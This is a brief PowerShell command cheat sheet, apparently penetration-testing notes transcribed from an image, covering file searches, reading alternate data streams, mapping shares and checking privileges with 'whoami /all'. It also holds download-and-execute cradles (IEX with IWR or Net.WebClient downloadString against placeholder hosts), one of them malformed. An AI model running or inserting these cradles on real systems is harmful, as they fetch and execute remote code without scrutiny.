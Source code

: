 # grep
Select-String -Path C:\path\here\*.extension_here -Pattern "string_here"

# grep recursively
Get-ChildItem C:\path\to\directory -Filter *.extension_here -Recurse | Select-String "string_here"

# search for a file
Get-Childitem –Path C:\ -Recurse –force -ErrorAction SilentlyContinue -Include *.extension_here -File

# display user privs
whoami /all

# download file from web server
IEX(IWR('http://URL_here/file_here'))
IEX/New-Object Net.WebClient().downloadString('http://IP_here/path/to/file')
IEX(New-Object Net.WebClient).downloadString('http://IP_here/path/to/file')

# read text file
Get-Content file_name-here

# read alternate data stream
Get-Content file_name_here -Stream ads_name_here

# connect to share
New-PSDrive -Name "drive_name_here" -PSProvider "FileSystem" -Root "\\IP_here\share_name_here"

# check process architecture
[Environment]::Is64BitProcess

# check OS architecture
[Environment]::Is64BitOperatingSystem


PYTHON
------
# user python path from env
#!/usr/bin/env python
#!/usr/bin/env python3
